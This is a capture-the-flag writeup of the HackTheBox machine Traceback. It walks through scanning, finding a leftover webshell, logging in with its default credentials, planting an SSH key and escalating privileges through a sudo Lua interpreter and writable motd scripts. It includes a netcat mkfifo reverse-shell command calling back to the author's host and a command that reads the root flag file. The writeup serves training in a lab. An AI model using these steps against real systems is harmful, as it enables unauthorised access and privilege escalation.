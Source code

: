```yaml
---
title: Writeup - HackTheBox - Traceback
published: true
---
```

Someone did hack this machine before and left a webshell on the
webserver. I use this webshell to get access to the webadmin user
account. From the user webadmin I could escalate to the sysadmin
user account through a lua script. The sysadmin can write to the
motd, wich runs as root. By taking advantage of that I was able to
get root access.

## [](#header-2)Enumeration

### [](#header-3)Nmap
I started with an nmap scan to get a list of running services on
the machine.

```
Nmap -sC -sV -oA nmap/nmap 10.10.10.181
```

![](Pictures/Traceback/nmap.png)

There is only two ports open, 22 and 80. I was looking at the
website that the webserver is hosting and noticed that this server
probably have been hacked.

![](Pictures/Traceback/website1.png)

The hacker left a note that he left a backdoor. By looking at the
source code I got some more information.

```
<center>
<h1>This site has been owned</h1>
<h2>I have left a backdoor for all the net. FREE
INTERNETZZZ</h2>
<h3> - Xh4H - </h3>
<!--Some of the best web shells that you might need ;)-->
</center>
```

With this information I just did a google search.

```
google <!--Some of the best web shells that you might need ;)-->
```

It got me to a GitHub page with different webshells.

![](Pictures/Traceback/webshells.png)

I saved the names of all the webshells into a file, list.txt.

![](Pictures/Traceback/list.png)


## [](#header-2)Exploitation

### [](#header-3)Gobuster
With the use of gobuster together with the list I got the
following result:

```
gobuster dir -w list.txt -u http://10.10.10.181 -x php
```

![](Pictures/Traceback/gobuster.png)

The tool got a hit on smevk.php. By taking a look at the following
site http://10.10.10.181/smevk.php I was presented with this:

![](Pictures/Traceback/website2.png)

I needed some credentials to be able to log in. I went back to the
GitHub page and looked through some of the shell code and found
the default login credentials.

```
$deface_url = 'http://pastebin.com/raw.php?i=FHfxsFGT';
url here(pastebin).
//deface
$UserName = "admin"; //Your UserName here.
$auth_pass = "admin"; //Your Password.
//Change Shell Theme here//
$color = "#8B008B"; //Fonts color modify here.
$Theme = '#8B008B';
accoriding to your choice. //Change border-color
$TabsColor = '#0E5061'; //Change tabs color here.
```

### [](#header-3)The access
I made the assumption that the default login credentials had not
been changed, and I was right, I was able to login.

![](Pictures/Traceback/loggedin.png)

From here I got an interface with access to the under laying
system as the user webadmin. By looking around I figured out that
I can access the webadmin’s home folder. In the folder
/home/webadmin/.ssh/ I put my own ssh pub key from my Kali system
into the file authorized_keys.

```
ssh-keygen -t rsa
```

![](Pictures/Traceback/pub.png)

### [](#header-3)User access as webadmin
I was now able to login to the system as webadmin without a
password.

```
ssh webadmin@10.10.10.181
```

![](Pictures/Traceback/shell1.png)

Here is more tracks from the former hacker.
I started with some enumeration of the user webadmin and found a
note in the home folder, note.txt.

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

### [](#header-3)Lua scripting
Lua is a scripting language.
I didn’t know where look for this tool, so I did some more
enumeration. When I was looking if I had some sudo privileges on
the system I found this:

```
sudo -l
```

![](Pictures/Traceback/sudo-l.png)

This tells me that I can run luvit in the user sysadmin’s
homefolder as the user sysadmin.

![](Pictures/Traceback/lua-poc.png)

I had never written anything with Lua before but I was able to do
a quick test of my privileges as sysadmin. I put the following
code in a file, script.lua, in the /tmp folder and then I ran
luvit as the user sysadmin.

```
os.execute('ls -la /home/sysadmin/> /tmp/ls')
```

![](Pictures/Traceback/lua1.png)

This worked and I got a listing of the content in sysadmin’s home
folder. My next step was to edit the script that it would give me
a user shell as sysadmin.

### [](#header-3)User access as sysadmin
I found out that netcat was installed on the system and that got
me the idea of putting a reverse shell into the Lua script, using
netcat.

```
os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 1337 >/tmp/f')
```

By doing this I could get a shell back.
On my Kali machine I put up a listener with the same port as in
the script.

```
nc -lvnp 1337
```

I ran the Lua script in the same was as before and I got a shell
back as the user sysadmin.
I was now able to get the user.txt flag.

![](Pictures/Traceback/user.png)

### [](#header-3)Root access
I did some enumeration and figured out by looking at running
processes that root updates the motd and I wonderd why. I took a
look inside the folder /etc/update-motd.d and found that the user
sysadmin can edit the motd files.

![](Pictures/Traceback/ls-motd.png)

I put the following line of code inside of the 00-header file:

```
echo "cat /root/root.txt" >> /etc/update-motd.d/00-header
```

When I logged back into the system with the user webadmin I got
the root.txt flag.

![](Pictures/Traceback/root.png)

Here the root.txt flag is blurred out.

